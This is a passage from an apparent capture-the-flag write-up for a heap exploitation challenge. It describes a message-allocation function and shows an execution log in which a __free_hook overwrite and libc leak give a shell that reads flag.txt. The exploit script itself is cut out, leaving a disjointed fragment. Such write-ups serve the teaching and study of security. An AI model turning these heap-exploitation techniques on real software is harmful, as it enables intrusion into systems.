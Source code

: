 ```m``` option calls ```leaveMessage()``` function, that, if ```now->msgSize``` is zero, asks for an integer ```N``` in input and sets ```now->msgSize``` equal to ```N*16```; in this case, it also calls ```malloc``` with that size and sets ```now->msg``` to the pointer returned by ```malloc```. At last, in both cases (```now->msgSize``` == 0, or not), it takes input from stdin in the buffer pointed by ```now->msg``` using ```fgets```:

if __name__ == "__main__":
    main()

{% endhighlight %}

After the overwrite of the ```__free_hook```, for some reason the automated interaction had problems, so it was easier to switch to interactive and do the last ```closePortal()``` manually. Anyway, in the Python code it is left commented that last automated part.

Here is the execution of the exploit:

```
$ python script.py 
[+] Opening connection to pwn.chall.pwnoh.io on port 13374: Done
libc_leak = b'\xe0\x02o\x9a\x0b\x7f\x00\x00'
hex(libc_base) = '0x7f0b9a503000'
fake_portal_raw.hex() = '0208000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000900000000000000481e6f9a0b7f0000'
[*] Switching to interactive mode

The year is 2050.
Somebody left notes on the ground. They say:
\x90RU\x9a\x0b\x00\x00hat will you do? $ o
$ 2022
Opened the portal!

The year is 2050.
Somebody left notes on the ground. They say:
\x90RU\x9a\x0b\x00\x00here is a portal to the year 2022 here
What will you do? $ t
$ 2022
*portal noises*

The year is 2022.
Somebody left notes on the ground. They say:
\x00\x00\x00\xa02Q*V\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00    \x00\x00\x00\x00\x1e\x9a\x0b\x00There is a portal to the year 2030 here
There is a portal to the year 2040 here
What will you do? $ c
$ 2040
$ ls
flag.txt
portals
$ cat flag.txt
buckeye{p0r741_70_4_p0r741_70_fr33d0m}
```
 
